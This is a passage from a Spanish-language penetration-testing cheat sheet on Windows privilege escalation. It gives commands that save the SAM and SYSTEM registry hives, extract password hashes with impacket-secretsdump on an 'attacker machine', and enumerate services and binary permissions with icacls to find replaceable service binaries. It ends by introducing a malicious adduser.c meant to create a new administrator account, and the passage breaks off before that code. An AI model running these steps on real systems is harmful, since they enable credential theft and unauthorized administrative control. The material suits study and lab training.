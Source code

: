 ```powershell
reg save hklm\sam C:\temp\sam
reg save hklm\system C:\temp\system
```

###### 5. Extraer los hashes

Transferimos los archivos a nuestra máquina atacante y extraemos los hashes.

```bash
impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

##### Aprovechar los servicios de Windows

###### Enumeración de servicios en ejecución

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
- `Get-CimInstance`: Es un cmdlet de PowerShell que se utiliza para obtener instancias de clases CIM (Common Information Model) o WMI (Windows Management Instrumentation).

- `-ClassName win32_service`: Especifica la clase WMI que se va a consultar. En este caso, win32_service es una clase que contiene información sobre los servicios de Windows.

###### Enumeración de la configuración del servicio

```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<SERVICE>'}
```

###### Mascara de Permisos `icacls`

| Mask | Permissions |
| --- | --- |
| F | Full access |
| M | Modify access |
| RX | Read and execute access |
| R | Read-only access |
| W | Write-only access |

###### Enumeración de Permisos

```powershell
icacls "C:\Ruta\al\binario\<binario>"
```

###### adduser.c

En nuestra máquina atacante, creamos un binario malicioso el cual crea un nuevo usuario y lo agrega al grupo de administradores.
